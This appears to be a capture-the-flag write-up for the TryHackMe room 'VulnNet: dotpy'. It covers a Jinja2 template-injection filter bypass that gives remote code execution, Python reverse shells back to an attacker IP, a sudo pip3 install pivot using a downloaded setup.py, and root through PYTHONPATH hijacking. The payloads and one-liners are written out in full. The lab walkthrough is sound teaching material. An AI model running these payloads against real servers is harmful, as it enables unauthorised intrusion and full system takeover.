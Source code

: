 ```yaml
---
title: 'TryHackMe | VulnNet: dotpy'
date: "2021-04-11T00:00:00Z"
tags: [tryhackme,web,python,jinja2,pathhijacking]
---
```


## Room Information

Title: VulnNet: dotpy<br>
Description: VulnNet Entertainment is back with their brand new website... and stronger?<br>
This room is availiable at [TryHackMe VulnNet:Dotpy](https://tryhackme.com/room/vulnnetdotpy) or go to [TryHackMe](https://tryhackme.com/).

## Ports
```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

## Reconnaissance

There is a wierd endpoint in the webserver that stops the http server: `/shutdown`
The 404 page will return the folder maybe some SSTI/XSS? We know that the server runs on python it may be jinja2, lets try sending `{{3 * 3}}`. if its jinja2 it should echo 9 back to the page. and ,that worked this will be our point of entry. 

## SSTI / RCE

Now that we have *Server Side Template Injection (SSTI)*, we can try running code on the remote box!
when we try running anything with an `_.[]` it will respond with 
```
INVALID CHARACTERS DETECTED
Your request has been blocked.
``` 
I think there are some filters in place, this may make it hard for us.
First we are gonna try to get a urlparameter
The following snippet will read the get parameter `c`
```
{{request|attr('args')|attr('get')('c')}}?c= 
```

now that we can read c. 
lets try running code on the machine.
```py
{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=
```

All of this is to get the `_` from the get parameter `us` and use it in the code, bcause underscores are blocked. 
this is the code when you dont have the underscore blocker.
{% raw %}
```py
{{request|attr('application')|attr( "__globals__" ) |attr( "__getitem__" )( "__builtins__") |attr( "__getitem__")("__import__")('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?c=
```
{% endraw %}
Way easier to read. :D

## Reverse Shell

Now that we can run code on the machine lets try running a reverseshell, we are going to use the following command. Lets use it inside the RCE exploit
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
curl -c "SESSION=session-cookie" http://$IP:8080/{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Changing user
Lets do some enumeration, in the following output we see we can run `/usr/bin/pip3 install` as the user `system-adm`
<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">sudo -l
# User web may run the following commands on vulnnet-dotpy:
#    (system-adm) NOPASSWD: /usr/bin/pip3 install *</code></pre>

Lets check [GTFOBins](https://gtfobins.github.io/) for an exploit, and there is [PIP Sudo GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo).


<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/pip_setup.py; mv pip_setup.py setup.py
sudo -u system-adm /usr/bin/pip3 install . </code></pre>

And we are now **system-adm** in our new shell. Lets get the user flag.
<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">cat ~/user.txt
# THM{********************************}</code></pre>

## Privilege Escalation

lets do some enumeration on the new user.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" data-output="2-3-4-5-6">
<code class="language-bash">sudo -l
# Matching Defaults entries for system-adm on vulnnet-dotpy:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
# 
# User system-adm may run the following commands on vulnnet-dotpy:
#     (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py</code></pre>


we see that we can set an environment variable while executing python3. We can possibly do some **PYTHONPATH hijacking**. 
there is a library imported `zipfile`, lets overwrite that! 
lets make a file privesc.py on our machine, we can download that by running a small server on our machine and using wget. 

This code will open a socket connection to our machine on port 7777.
<pre data-src="privsec.py" 
  data-download-link 
  data-download-link-label="get_app" 
><code class="language-py">import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",7777));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])</code>
</pre>


Because `import zipfile` is run, it will execute the code inside of `zipfile.py` so we are going to rename the file on the remote and then add it to the **$PYTHONPATH** environment variable.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/privesc.py ; mv privesc.py zipfile.py
sudo PYTHONPATH=/home/system-adm /usr/bin/python3 /opt/backup.py</code></pre>

and we have a new shell. lets check our user!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" >
<code class="language-bash">whoami; id
#root
#uid=0(root) gid=0(root) groups=0(root)</code></pre>

lets cat the root flag!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" data-output="2">
<code class="language-bash">cat ~/root.txt
THM{********************************}</code></pre>
